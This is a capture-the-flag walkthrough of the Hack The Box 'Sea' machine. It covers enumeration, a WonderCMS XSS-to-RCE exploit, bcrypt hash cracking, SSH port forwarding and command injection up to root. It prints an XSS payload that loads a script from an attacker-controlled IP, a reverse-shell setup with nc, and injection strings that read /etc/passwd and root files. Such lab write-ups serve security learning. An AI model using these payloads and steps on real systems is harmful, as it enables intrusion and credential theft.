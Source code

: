 # Sea HTB Machine (Linux)

Nmap showed a http port open. 

## http
I inspected the web page, ran **ffuf** on both directories and virtual host; did not find anything. 
Back in the web page I tried to look for anything helpful. i started to read the information that it was on it and found there is a **contact** button style link. 
This is why it is good to not get tunnel vision and try to read each little thing to get as much information. 
I clicked on **contact** but did not reroute me anywhere and only downloaded a **php** file with nothing on it. 
I decided to inspect what code was on this button in devtools and found a directory, **http://sea.htb/contact.php**.

## /contact.php
After adding the new director into **/etc/hosts** I waited a bit until I could access the new domain/directory. 

I tried to to upload multiple payload with a **nc** listener but got no response. Dealing with a Blind XSS; I will come back to this as I explore what more I can find. 

## feroxbuster
`feroxbuster -u http://sea.htb -x php` helped me find multiple directories within **sea.htb**. Exploring the differrent onces I gravitated towards **/themes/bike**. 

I checked out the **version** directory and found a version number, I also checked out **LICENSE** directory but did not found much. 
Decided to run a quick directory fuzz; `ffuf -u http://sea.htb/themes/bike/FUZZ -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt`.

Found **README.md** and quickly saw that it is using **# WonderCMS bike theme**. So if we combine both the version number and **CMS** it is using we get, **Wonder CMS 3.2.0**.

## Exploit
Googling exploits I found this https://github.com/thefizzyfish/CVE-2023-41425-wonderCMS_RCE.
Looking at the payload I noticed that they use **loginURL** that is an exploit from **WonderCMS**. 
I put that into my URL and it did give me a login page, so that is now confirmed. 

Followed the steps in the repo; created a XSS payload we can use to inject in **contact.php**.
`http://sea.htb/loginURL/index.php?page=loginURL?"></form><script+src="http://10.10.14.11:8000/xss.js"></script><form+action="`

The exploit did the rest and now following the steps, I started a **nc** listener, and got a reverse shell. 

## Reverse shell
I found a couple of users, **amay** and **geo**. **users.txt** was in **amay** but I got a permission denied. 

Checking `etc/apache2/sites-enabled; cat sea.conf` showed me the document root. 
`cd /var/www/sea`
`ls; cd data`
`cat database.js`
Which then gave me a hashed password. 
$2y$ → bcrypt identifier

`hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`; make sure to remove \ from the hashed password since **bcrpyt** does not contain backslahes.
-m 3200 → tells Hashcat it's a bcrypt hash
-a 0 → dictionary attack

Once the hashed password I used it to login into one of the users that I was able to go into it's directory but got access denied when trying to access the **users.txt**.

## SSH 
Once in I was able to get the first flag, **users.txt**.

`sudo -l` Could not be accessed. 
`netstat -lntp` gave me a local host with port 8080.

### Port forwarding 
`ssh -L 8081:127.0.0.1:8080 amay@sea.htb`

Head over to the webpage that is hosting, `http://127.0.0.1:8081/`.

Once in here we can see this site is about system monitoring where user can analyze the logs. 

### Burp
Intercepted the traffic and played with `log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log&analyze_log=`.
It reads the /var/log/apache2/access as I guessed earlier. I tried reading /etc/passwd and it did work.
Played with it with different command injections; ;id; returned uid=0(root) gid=0(root) groups=0(root).

Finally I got a hit using, `log_file=/root/root.txt;id&analyze_log=`. Flag was in response and machine was 

PWNED!

# Summary:
The Sea HTB machine was compromised through a series of well-executed steps. Initial web exploration revealed a **Blind XSS** vulnerability via a **contact.php** file. Further investigation using tools like **feroxbuster** and **ffuf** led to the discovery of a **WonderCMS 3.2.0** theme, which was vulnerable to **CVE-2023-41425**, a remote code execution (RCE) exploit. By injecting a crafted payload, a reverse shell was obtained. After cracking a bcrypt password hash and gaining access to a user account, **SSH port forwarding** was used to access an internal system monitoring service. This allowed for successful **command injection**, escalating privileges to root and capturing the root flag.

## Key Takeaways:
1. **Blind XSS as a Vector**: Always inspect web elements closely; seemingly benign features like contact forms can be entry points for XSS.
2. **CMS Vulnerabilities**: Identifying the CMS and its version is crucial for discovering known vulnerabilities (e.g., **CVE-2023-41425** for WonderCMS).
3. **Hash Cracking**: **bcrypt** hashes can be cracked using tools like **hashcat** with proper wordlists (e.g., **rockyou.txt**).
4. **SSH Port Forwarding**: When a service is restricted to localhost, use **SSH port forwarding** to access it externally.
5. **Command Injection**: Look for opportunities in web services that handle logs or file paths, as they are often vulnerable to **command injection**.

## Things to Remember:
- **Detailed Web Exploration**: Don’t rush through the initial page inspection; take time to check all elements, including hidden or unexpected behaviors.
- **Known Vulnerability Research**: When you find a CMS, always check for known exploits tied to that version.
- **Password Cracking**: Be prepared to crack password hashes, particularly when they are in common formats like bcrypt.
- **Service Accessibility**: Use **SSH tunneling** when necessary to access internal services.
- **Log and File Path Vulnerabilities**: Web apps that interact with logs or file paths may expose critical vulnerabilities, such as **command injection**.

